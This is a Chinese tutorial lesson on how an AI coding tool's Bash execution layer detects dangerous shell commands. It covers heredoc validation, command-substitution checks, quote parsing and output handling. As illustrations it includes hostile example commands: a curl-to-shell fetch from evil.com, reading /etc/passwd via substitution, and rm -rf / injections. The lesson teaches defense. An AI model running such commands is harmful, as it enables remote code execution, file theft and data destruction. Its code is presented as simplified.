



# 第06课：Shell 执行工具深度剖析

## 课程信息

| 属性 | 内容 |
|------|------|
| **所属阶段** | 第二阶段：核心系统深度解析 |
| **建议时长** | 120 分钟 |
| **难度等级** | ⭐⭐⭐⭐ 高级 |
| **前置知识** | 第05课工具系统架构、Shell 基础（管道/重定向/heredoc）、安全概念基础 |

### 学习目标

1. 理解 BashTool 的安全执行模型：多层检查链如何构建纵深防御
2. 深入掌握危险命令检测的具体实现：命令替换、heredoc、Zsh 扩展等风险点
3. 了解 `isSearchOrReadBashCommand` 的管道识别算法：如何判断整条管道是否为只读操作
4. 理解 `bashCommandIsSafe` 的早期允许路径（early-allow）与普通检查路径的区别
5. 掌握执行结果处理策略：流式输出、截断、落盘、图像处理

---

## 核心概念

### BashTool 的安全模型

BashTool 是 Claude Code 中最复杂的工具，因为 Shell 命令的能力边界极广——从查看文件到删除系统目录，一条命令可以产生完全不同的影响。其安全模型分为三个层次：



### 命令分类的 UI 意义

BashTool 会根据命令内容决定 UI 展示方式：

| 命令类型 | UI 行为 | 示例 |
|---------|---------|------|
| **搜索命令** | 折叠显示，标注"搜索" | `grep -r pattern src/` |
| **读取命令** | 折叠显示，标注"读取" | `cat file.txt` |
| **目录列出** | 折叠显示，标注"列出" | `ls -la`, `tree` |
| **写入命令** | 完整展示，需用户确认 | `rm file`, `git commit` |
| **无输出命令** | 显示"完成"而非输出 | `mv a b`, `mkdir dir` |

---

## 架构设计与设计思想

### BashTool 模块分布



### 设计思想

**1. 纵深防御（Defense in Depth）**

没有任何单一检查能覆盖所有危险场景。`bashSecurity.ts` 包含数十个独立的检查器，每个只负责检测一类风险。这种"检查链"设计确保：漏过一个检查，下一个会接住。

**2. 早期允许路径（Early Allow Path）**

`isSafeHeredoc` 是一个特殊的"早期允许"路径：如果命令匹配安全的 heredoc 模式，直接允许执行，**跳过所有后续检查**。这是为了避免安全的合法用法被过度检查误杀。

**但注意**：早期允许路径必须"**可证明安全**（provably safe）"，而不只是"可能安全"。因此对其验证极为严格。

**3. 最坏情况假设（Worst Case Assumption）**

当命令解析失败（Tree-Sitter 异常）时，不是"放过"而是"询问用户"。宁可误报也不漏报安全风险。

**4. 命令替换的根本性风险**

反引号 `` ` `` 和 `$()` 允许在命令参数中嵌入另一个命令的执行结果。如 `git commit -m "$(cat /etc/passwd)"` ——这让原本"无害"的 git 命令变成了数据泄露媒介。因此命令替换是最重要的检测目标之一。

---

## 关键源码深度走查

### 代码片段 1：命令的搜索/读取分类（BashTool.tsx L60-170）

```typescript
// 搜索命令集合
const BASH_SEARCH_COMMANDS = new Set([
  'find', 'grep', 'rg', 'ag', 'ack', 'locate', 'which', 'whereis'
])

// 读取命令集合
const BASH_READ_COMMANDS = new Set([
  'cat', 'head', 'tail', 'less', 'more',
  'wc', 'stat', 'file', 'strings',
  'jq', 'awk', 'cut', 'sort', 'uniq', 'tr'
])

// 目录列出命令集合
const BASH_LIST_COMMANDS = new Set(['ls', 'tree', 'du'])

// 语义中性命令（不影响管道整体的 read/search 性质）
const BASH_SEMANTIC_NEUTRAL_COMMANDS = new Set(['echo', 'printf', 'true', 'false', ':'])

/**
 * 判断命令是否为搜索/读取操作（用于 UI 折叠展示）
 *
 * 关键设计：对于管道命令（`cat file | grep pattern`），
 * ALL 部分都必须是搜索/读取命令，整体才算可折叠。
 */
export function isSearchOrReadBashCommand(command: string): {
  isSearch: boolean
  isRead: boolean
  isList: boolean
} {
  let partsWithOperators: string[]
  try {
    partsWithOperators = splitCommandWithOperators(command)
  } catch {
    // 命令语法不合法时，保守地返回"非读取"
    return { isSearch: false, isRead: false, isList: false }
  }

  let hasSearch = false, hasRead = false, hasList = false
  let hasNonNeutralCommand = false
  let skipNextAsRedirectTarget = false

  for (const part of partsWithOperators) {
    // 跳过重定向目标（如 `> output.txt` 中的 output.txt）
    if (skipNextAsRedirectTarget) { skipNextAsRedirectTarget = false; continue }
    if (part === '>' || part === '>>' || part === '>&') {
      skipNextAsRedirectTarget = true; continue
    }
    // 跳过操作符本身
    if (['||', '&&', '|', ';'].includes(part)) continue

    const baseCommand = part.trim().split(/\s+/)[0]
    if (!baseCommand) continue

    // 语义中性命令不影响整体判断
    if (BASH_SEMANTIC_NEUTRAL_COMMANDS.has(baseCommand)) continue

    hasNonNeutralCommand = true
    const isPartSearch = BASH_SEARCH_COMMANDS.has(baseCommand)
    const isPartRead = BASH_READ_COMMANDS.has(baseCommand)
    const isPartList = BASH_LIST_COMMANDS.has(baseCommand)

    // 关键：任一非只读/搜索命令出现，立即返回 false
    if (!isPartSearch && !isPartRead && !isPartList) {
      return { isSearch: false, isRead: false, isList: false }
    }
    // 记录出现的类型
    if (isPartSearch) hasSearch = true
    if (isPartRead) hasRead = true
    if (isPartList) hasList = true
  }

  if (!hasNonNeutralCommand) return { isSearch: false, isRead: false, isList: false }
  return { isSearch: hasSearch, isRead: hasRead, isList: hasList }
}
```

**逐行解析**：

| 关键逻辑 | 设计意图 |
|---------|---------|
| `splitCommandWithOperators` | 将 `cmd1 \| cmd2 && cmd3` 拆分为 `['cmd1', '\|', 'cmd2', '&&', 'cmd3']` |
| 重定向目标跳过 | `grep -r . > output.txt` 中 `output.txt` 不是命令，需要跳过 |
| 语义中性命令 | `ls dir && echo "---"` 依然是只读（echo 是中性的） |
| 遇到非只读立即返回 false | `cat file \| rm -` 不能被折叠展示为"读取" |
| `hasNonNeutralCommand` 检查 | 避免全是 echo 的命令被误识别为"搜索" |

**设计模式**：**状态机遍历（State Machine Traversal）**。

> 💡 **设计点评 — 管道命令的保守判定**
> 
> **好在哪里**：整条管道里只要有一个非只读命令，整体就判定为"非只读"。就像接力赛——不管前面几棒跑多快，只要最后一棒是写操作，这场比赛就是"写操作"。这保证了 UI 折叠展示不会误把危险命令包装成"看起来安全"的样子。
> 
> **如果不这样做**：`cat secret.txt | rm -rf /` 可能被折叠显示为"读取命令"，用户以为只是读文件，其实正在执行删除。保守判定虽然偶尔误判无害命令，但比漏判危险命令安全得多。

---

### 代码片段 2：安全 heredoc 的早期允许路径（bashSecurity.ts L288-450）

```typescript
/**
 * 检查命令是否匹配安全的 heredoc 模式，可以跳过所有后续验证。
 *
 * 这是早期允许路径（EARLY-ALLOW PATH）：
 * 返回 true 时 bashCommandIsSafe 直接返回 passthrough，跳过所有后续验证器。
 *
 * 因此，这个检查必须是"可证明安全"的，而非"可能安全"。
 *
 * 唯一允许的模式：
 *   [prefix] $(cat <<'DELIM'\n
 *   [body lines]\n
 *   DELIM\n
 *   ) [suffix]
 *
 * 安全要求：
 * - 分隔符必须是单引号引用（'DELIM'）或转义（\DELIM），确保 body 是字面量
 * - 关闭分隔符必须独占一行（或后接唯一的 ) ）
 * - 关闭分隔符必须是第一个匹配行（复现 bash 的行为，避免跳过注入命令）
 * - $(  前必须有非空白内容（防止 heredoc body 变成命令名）
 */
function isSafeHeredoc(command: string): boolean {
  if (!HEREDOC_IN_SUBSTITUTION.test(command)) return false

  // 解析 heredoc 模式：$(cat <<'DELIM' 或 $(cat <<\DELIM
  const heredocPattern =
    /\$\(cat[ \t]*<<(-?)[ \t]*(?:'+([A-Za-z_]\w*)'+|\\([A-Za-z_]\w*))/g

  const safeHeredocs = []
  let match
  while ((match = heredocPattern.exec(command)) !== null) {
    const delimiter = match[2] || match[3]
    if (delimiter) {
      safeHeredocs.push({
        start: match.index,
        operatorEnd: match.index + match[0].length,
        delimiter,
        isDash: match[1] === '-',   // <<- 模式（剥离前导 tab）
      })
    }
  }

  // 对每个 heredoc 进行逐行验证（复现 bash 的关闭行为）
  for (const { operatorEnd, delimiter, isDash } of safeHeredocs) {
    const afterOperator = command.slice(operatorEnd)
    const openLineEnd = afterOperator.indexOf('\n')
    if (openLineEnd === -1) return false  // heredoc 必须换行

    // 开头行末尾不能有额外内容（防止注入）
    const openLineTail = afterOperator.slice(0, openLineEnd)
    if (!/^[ \t]*$/.test(openLineTail)) return false

    // 逐行查找关闭分隔符（模拟 bash 的第一个匹配行语义）
    const bodyStart = operatorEnd + openLineEnd + 1
    const bodyLines = command.slice(bodyStart).split('\n')

    let closingLineIdx = -1
    for (let i = 0; i < bodyLines.length; i++) {
      const rawLine = bodyLines[i]
      const line = isDash ? rawLine.replace(/^\t*/, '') : rawLine

      if (line === delimiter) {
        closingLineIdx = i
        // 下一行必须是 ) 且前面只有空白
        const nextLine = bodyLines[i + 1]
        if (!nextLine) return false
        const parenMatch = nextLine.match(/^([ \t]*)\)/)
        if (!parenMatch) return false
        break
      }
      // DELIM) 一行形式也允许
      if (line === `${delimiter})`) { closingLineIdx = i; break }
    }

    if (closingLineIdx === -1) return false  // 未找到关闭分隔符
  }

  return safeHeredocs.length > 0  // 所有 heredoc 都通过验证
}
```

**逐行解析**：

| 安全考量 | 对应代码 |
|---------|---------|
| 防止跳过第一个分隔符 | `for (let i = 0; ...)` 找到**第一个**匹配行就停止（bash 的语义） |
| 防止开头行注入 | `if (!/^[ \t]*$/.test(openLineTail))` 确保 `<<'EOF'` 后面没有 `; rm -rf /` |
| 防止无关闭符的 heredoc | `if (closingLineIdx === -1) return false` |
| 防止 body 被当命令执行 | `$(` 前必须有非空白内容（调用处检查） |
| 支持 `<<-` 语法 | `isDash ? rawLine.replace(/^\t*/, '') : rawLine` 处理缩进 heredoc |

**设计原则**：**可证明安全**（Provably Safe）——不是"通常安全"，而是能通过逻辑证明绝对安全。

---

### 代码片段 3：命令替换检测（bashSecurity.ts 核心检查器逻辑）

```typescript
/**
 * 检测命令替换（$() 和反引号）
 * 这是最重要的安全检查之一。
 *
 * 风险：git commit -m "$(cat /etc/passwd)" 让安全命令变成数据泄露
 * 风险：rm $(find . -name "*.tmp") 让删除命令自动扩展到大量文件
 */
function validateCommandSubstitution(context: ValidationContext): PermissionResult {
  const { fullyUnquotedContent, originalCommand } = context

  // 检测 $() 形式的命令替换（引号外的）
  if (fullyUnquotedContent.includes('$(')) {
    return {
      behavior: 'ask',
      message: 'Command contains command substitution ($()). ' +
               'This may execute arbitrary commands and could be dangerous.',
    }
  }

  // 检测反引号形式的命令替换
  if (hasUnescapedChar(fullyUnquotedContent, '`')) {
    return {
      behavior: 'ask',
      message: 'Command contains backtick command substitution. ' +
               'This may execute arbitrary commands.',
    }
  }

  return { behavior: 'passthrough', message: 'No command substitution found' }
}

/**
 * 检测引号外的未转义字符（用于多种安全检查）
 * 正确处理单引号、双引号、转义序列
 */
function hasUnescapedChar(content: string, char: string): boolean {
  // content 已经是 extractQuotedContent 处理后的结果（引号内容已去除）
  let i = 0
  while (i < content.length) {
    if (content[i] === '\\' && i + 1 < content.length) {
      i += 2  // 转义序列：跳过反斜杠和下一个字符
      continue
    }
    if (content[i] === char) return true
    i++
  }
  return false
}
```

**为什么命令替换如此危险**：

```bash
# 表面上是 git commit，实际上会先执行 cat /etc/passwd
git commit -m "$(cat /etc/passwd)"

# 表面上是删除临时文件，但 find 可能返回意外路径
rm $(find / -name "*.bak")

# 危险的变量注入
MALICIOUS="$(curl evil.com/payload | sh)"
echo "$MALICIOUS"
```

---

### 代码片段 4：引号提取与未引用内容分析（bashSecurity.ts L128-188）

```typescript
type QuoteExtraction = {
  withDoubleQuotes: string     // 保留双引号内容，去除单引号内容
  fullyUnquoted: string        // 完全去除引号内容
  unquotedKeepQuoteChars: string // 去除引号内容但保留引号字符本身
}

/**
 * 从命令中提取引号外的内容
 *
 * 设计意图：安全检查应在"引号外"的内容上进行。
 * 引号内的内容是字面量，不会被 shell 解释执行。
 *
 * 例：echo "hello $(whoami)" 中，$(whoami) 在双引号内 —— 仍会执行！
 * 例：echo 'hello $(whoami)' 中，$(whoami) 在单引号内 —— 不会执行！
 */
function extractQuotedContent(command: string, isJq = false): QuoteExtraction {
  let withDoubleQuotes = ''
  let fullyUnquoted = ''
  let unquotedKeepQuoteChars = ''
  let inSingleQuote = false
  let inDoubleQuote = false
  let escaped = false

  for (let i = 0; i < command.length; i++) {
    const char = command[i]

    if (escaped) {
      escaped = false
      // 转义字符：在单引号外均保留
      if (!inSingleQuote) withDoubleQuotes += char
      if (!inSingleQuote && !inDoubleQuote) fullyUnquoted += char
      if (!inSingleQuote && !inDoubleQuote) unquotedKeepQuoteChars += char
      continue
    }

    if (char === '\\' && !inSingleQuote) {
      escaped = true
      // 反斜杠本身也保留（为了正确计算字符位置）
      if (!inSingleQuote) withDoubleQuotes += char
      continue
    }

    // 切换单引号状态（单引号不能嵌套，且在双引号内无效）
    if (char === "'" && !inDoubleQuote) {
      inSingleQuote = !inSingleQuote
      unquotedKeepQuoteChars += char  // 保留引号字符本身（供 validateMidWordHash 使用）
      continue
    }

    // 切换双引号状态
    if (char === '"' && !inSingleQuote) {
      inDoubleQuote = !inDoubleQuote
      unquotedKeepQuoteChars += char
      if (!isJq) continue  // jq 模式需要保留双引号内容进行分析
    }

    // 字符不在单引号内：加入 withDoubleQuotes
    if (!inSingleQuote) withDoubleQuotes += char
    // 字符不在任何引号内：加入 fullyUnquoted
    if (!inSingleQuote && !inDoubleQuote) fullyUnquoted += char
    if (!inSingleQuote && !inDoubleQuote) unquotedKeepQuoteChars += char
  }

  return { withDoubleQuotes, fullyUnquoted, unquotedKeepQuoteChars }
}
```

**逐行解析**：

| 三种提取结果 | 用途 |
|------------|------|
| `withDoubleQuotes` | 检测双引号内的命令替换（双引号不阻止 `$()`） |
| `fullyUnquoted` | 检测真正在引号外的危险字符（如未引用的管道符） |
| `unquotedKeepQuoteChars` | 检测 `'x'#`（引号字符紧邻注释符）这类微妙注入 |

> 💡 **设计点评 — 三视图解析的精确性**
> 
> **好在哪里**：`extractQuotedContent` 把一条命令分解成三个"解读视角"，每种视角针对不同的安全检查场景。就像拍照片用不同滤镜看同一场景——有些危险在白光下看不出来，但在紫外线滤镜下一目了然。三视图消除了"引号歧义"对安全判断的干扰。
> 
> **如果不这样做**：直接在原始命令字符串上用正则检测危险字符，会产生大量误报（单引号内的 `$()` 被误判为命令替换）和漏报（双引号内的 `$()` 被忽略），安全检查的准确率会大幅下降。

---

### 代码片段 5：流式执行与进度回调（BashTool.tsx 执行逻辑）

```typescript
// 进度展示阈值
const PROGRESS_THRESHOLD_MS = 2000  // 2秒后显示进度
// 助手模式下，阻塞性 bash 在此时间后自动后台化
const ASSISTANT_BLOCKING_BUDGET_MS = 15_000  // 15秒

/**
 * BashTool 的 call 方法核心逻辑（简化版）
 */
async function* runBashCommand(
  command: string,
  timeout: number,
  context: ToolUseContext,
  onProgress: ToolCallProgress,
) {
  const startTime = Date.now()
  let hasOutput = false
  let outputAccumulator = new EndTruncatingAccumulator(MAX_OUTPUT_SIZE)

  try {
    // 使用沙箱适配器执行命令（macOS 上可能使用 sandbox-exec）
    const result = await exec(command, {
      timeout,
      cwd: getCurrentCwd(),
      onStdout: (chunk) => {
        outputAccumulator.append(chunk)
        hasOutput = true

        const elapsed = Date.now() - startTime
        if (elapsed > PROGRESS_THRESHOLD_MS) {
          // 超过 2 秒，开始显示实时进度
          onProgress({
            toolUseID: context.toolUseID,
            data: {
              type: 'bash_progress',
              stdout: outputAccumulator.getPreview(),
              elapsed: elapsed,
            }
          })
        }
      },
      onStderr: (chunk) => {
        // stderr 也参与进度显示
        outputAccumulator.appendStderr(chunk)
      }
    })

    const output = outputAccumulator.getResult()

    // 大结果落盘策略
    if (output.length > maxResultSizeChars) {
      const resultPath = await persistLargeOutput(output)
      return {
        data: {
          stdout: generatePreview(output),  // 仅返回预览
          resultFilePath: resultPath,        // 告知模型完整结果路径
          truncated: true,
        }
      }
    }

    return { data: { stdout: output, stderr: result.stderr } }

  } catch (e) {
    if (e instanceof ShellError) {
      // Shell 命令失败（非零退出码）：检查语义（如 grep 无匹配不是错误）
      const semantic = interpretCommandResult(command, e.exitCode, e.stdout, e.stderr)
      if (!semantic.isError) {
        return { data: { stdout: e.stdout, stderr: e.stderr } }
      }
    }
    throw e
  }
}
```

**进度机制的设计**：



> 💡 **设计点评 — 2秒进度阈值与大输出落盘**
> 
> **好在哪里**：两个设计相互配合——2秒阈值避免了短命令闪烁进度条（快速命令在2秒内完成，用户根本看不到进度 UI）；大输出落盘让模型能知道"完整结果在哪儿"而不是被截断的输出。两者都是以"用户感知"为优先的设计，而非单纯追求技术完整性。
> 
> **如果不这样做**：如果没有2秒阈值，每个命令都立即显示进度条，UI 会频繁闪烁，体验很差。如果大输出直接截断不落盘，模型可能在截断的输出上做错误判断，不知道还有更多内容。

---

## Harness Engineering

### Harness Engineering 视角

BashTool 是驾驭层（Harness Layer）中最典型的能力-风险平衡案例：Shell 命令是 AI 最强大的能力，也是最危险的工具，驾驭层在这里构建了最复杂的多层防护。

**1. 安全检查链作为能力控制门**

驾驭层没有"禁止 AI 使用 Bash"（那会丧失大量能力），而是用多层检查链精确区分哪些用法安全、哪些需要确认：

```typescript
// 驾驭层：每个验证器代表一种风险维度的控制
const SECURITY_VALIDATORS = [
  validateEmpty,                  // 控制：空命令直接放行
  validateIncompleteCommands,     // 控制：语法不完整时拒绝执行
  isSafeHeredoc,                  // 控制：可证明安全的模式直接放行
  validateCommandSubstitution,    // 控制：命令嵌套执行需确认
  validateZshDangerousCommands,   // 控制：Shell 特有危险扩展阻断
  validateRedirections,           // 控制：重定向注入检测
]
```

每个检查器是驾驭层对一种特定威胁模型的编码——不是对 AI 行为的约束，而是对 Shell 语法危险模式的识别。

**2. isSearchOrReadBashCommand 作为能力分级**

驾驭层通过判断命令是否为只读，来决定 UI 展示方式（折叠 vs 完整展示），这是能力分级的体现：不是所有 Bash 命令都需要相同级别的用户注意力。只读命令自动"静默"，写入命令"高亮"提醒用户审查。

**3. 早期允许路径的驾驭哲学**

`isSafeHeredoc` 的早期允许不是"放宽限制"，而是"精确识别安全模式后给予通行证"。驾驭层不是简单的黑白门控，而是根据精确分析给出分级响应——这比一刀切的"凡 heredoc 皆询问"更实用，也体现了驾驭工程的成熟度。

### 对大模型应用的启发

**1. 纵深防御优于单一检查**

不要试图用一个"完美的"安全规则覆盖所有情况，而是设计多个独立检查器，每个只负责一类风险。漏过第一层的威胁，下一层接住。安全检查是"与"逻辑，全部通过才允许。

**2. 区分"AI 能力的约束"和"工具行为的约束"**

你不应该说"AI 不能运行危险命令"——AI 不应该需要知道命令是否危险。而是在工具层面检测危险模式，让 AI 只感知"工具拒绝了某个命令"。职责分离让提示工程更简洁，安全机制更可靠。

**3. 早期允许路径需要严格的"可证明安全"标准**

如果要在检查链中设置"跳过后续检查"的快捷路径，必须使用极其严格的验证（可证明安全，而非大概率安全）。快捷路径是双刃剑：验证严格时极大提升性能，验证宽松时成为最危险的安全漏洞。

**4. 命令输出的信息密度分布影响截断策略**

对于 Shell 命令，末尾比开头重要：最终结果、错误信息、总结性输出都在末尾。`EndTruncatingAccumulator` 体现了"基于领域知识设计截断策略"的思路。在你自己的应用中，考虑不同类型内容的信息密度分布，选择最优截断方向。

**5. 退出码语义需要显式解释层**

不同命令的退出码含义不同（grep 的 1 是"无匹配"，而非"错误"）。在 AI 应用中，工具执行结果需要经过语义解释层才能传给模型——让模型正确理解"未找到"和"出错"的区别，避免错误的错误处理循环。

---

## 思考题与进阶方向

### 思考题

**题目 1**：为什么 `isSafeHeredoc` 使用逐行匹配而非 `[\s\S]*?` 正则？

<details>
<summary>💡 参考答案</summary>

`[\s\S]*?` 是非贪婪匹配，会在找到第一个匹配时停止，但它可能被攻击者绕过：构造 `cat <<'EOF'\ncontents\nEOF\n; rm -rf /\nEOF)` 时，正则可能"跳过"第一个 EOF，把 `; rm -rf /` 当成合法的 heredoc 内容体。逐行匹配精确复现 bash 的行为——bash 在读到"分隔符独占一行"时立即关闭 heredoc，不会继续看后面的行。逐行匹配保证了安全检查与 bash 实际解析行为完全一致，没有正则的语义偏差。

</details>

**题目 2**：`withDoubleQuotes` 和 `fullyUnquoted` 有什么区别？各用于哪类安全检查？

<details>
<summary>💡 参考答案</summary>

`withDoubleQuotes` 保留双引号内的内容（因为双引号内的 `$()` 仍然会被 bash 执行），但移除单引号内的内容（单引号内是字面量，不执行）。`fullyUnquoted` 同时移除两种引号内的内容，只保留完全裸露的字符。`withDoubleQuotes` 用于检测"看似安全的双引号字符串内藏命令替换"，`fullyUnquoted` 用于检测"确实在引号外面"的危险字符（如未引用的管道符、重定向符）。错误使用会导致误报（把单引号内的 `$()` 当作危险）或漏报（忽略双引号内的 `$()`）。

</details>

**题目 3**：`grep` 返回码 1 代表什么语义？为什么不直接报错？

<details>
<summary>💡 参考答案</summary>

根据 POSIX 规范，grep 的退出码含义是：0 = 找到匹配，1 = 未找到匹配，2 = 发生错误。退出码 1 是正常的"搜索结果为空"，不是程序错误。如果把退出码 1 当作错误报告给模型，模型会认为搜索"失败"了，可能尝试换用其他命令或报告"无法搜索"，而实际上只是没有匹配。`commandSemantics.ts` 的语义解释层让模型感知的是"搜索成功，结果为空"而非"命令执行失败"。

</details>

**题目 4**：`ASSISTANT_BLOCKING_BUDGET_MS = 15_000` 的作用是什么？

<details>
<summary>💡 参考答案</summary>

在助手（AI-driven）模式下，一些 Bash 命令会持续运行很长时间（如构建命令、测试套件）。如果等待超过 15 秒，Claude Code 会将这个命令转为后台运行，返回一个"命令仍在运行中"的状态，让模型可以继续处理其他任务或等待用户指令。这避免了 AI 在等待漫长操作时"卡住"，体现了驾驭层对 AI 执行时间的调度控制。

</details>

**题目 5**：`EndTruncatingAccumulator` 为什么选择保留末尾而非开头？

<details>
<summary>💡 参考答案</summary>

Shell 命令的输出通常遵循"前序初始化，后置结果"的模式：编译过程先输出各文件的编译日志，最后输出"Build failed"或"Build succeeded"；测试运行先输出每个测试的详情，最后输出"5 tests passed, 2 failed"。末尾的总结信息和最终状态对模型理解执行结果更重要。如果截断开头，模型还是能看到最关键的结果；如果截断末尾，模型可能不知道最终成功还是失败。

</details>

### 进阶方向

- **安全研究**：阅读 `bashSecurity.ts` 中的 `validateIFS`、`validateMidWordHash`、`validateUnicodeWhitespace` 等检查器，理解每种注入向量
- **AST 分析**：研究 `src/utils/bash/ast.ts` 中的 Tree-Sitter 集成，了解 Shell 语法的 AST 表示
- **sed 支持**：阅读 `sedEditParser.ts`，了解 `sed -i 's/foo/bar/g' file.txt` 如何被解析为结构化的编辑操作
- **沙箱机制**：研究 `src/utils/sandbox/sandbox-adapter.ts`，了解 macOS `sandbox-exec` 如何提供系统级隔离
- **动手实验**：尝试向 BashTool 提交各种边缘命令（heredoc、复合管道、Zsh 扩展），观察安全检查的响应

- **安全研究**：阅读 `bashSecurity.ts` 中的 `validateIFS`、`validateMidWordHash`、`validateUnicodeWhitespace` 等检查器，理解每种注入向量
- **AST 分析**：研究 `src/utils/bash/ast.ts` 中的 Tree-Sitter 集成，了解 Shell 语法的 AST 表示
- **sed 支持**：阅读 `sedEditParser.ts`，了解 `sed -i 's/foo/bar/g' file.txt` 如何被解析为结构化的编辑操作
- **沙箱机制**：研究 `src/utils/sandbox/sandbox-adapter.ts`，了解 macOS `sandbox-exec` 如何提供系统级隔离
- **动手实验**：尝试向 BashTool 提交各种边缘命令（heredoc、复合管道、Zsh 扩展），观察安全检查的响应

- **安全研究**：阅读 `bashSecurity.ts` 中的 `validateIFS`、`validateMidWordHash`、`validateUnicodeWhitespace` 等检查器，理解每种注入向量
- **AST 分析**：研究 `src/utils/bash/ast.ts` 中的 Tree-Sitter 集成，了解 Shell 语法的 AST 表示
- **sed 支持**：阅读 `sedEditParser.ts`，了解 `sed -i 's/foo/bar/g' file.txt` 如何被解析为结构化的编辑操作
- **沙箱机制**：研究 `src/utils/sandbox/sandbox-adapter.ts`，了解 macOS `sandbox-exec` 如何提供系统级隔离
- **动手实验**：尝试向 BashTool 提交各种边缘命令（heredoc、复合管道、Zsh 扩展），观察安全检查的响应
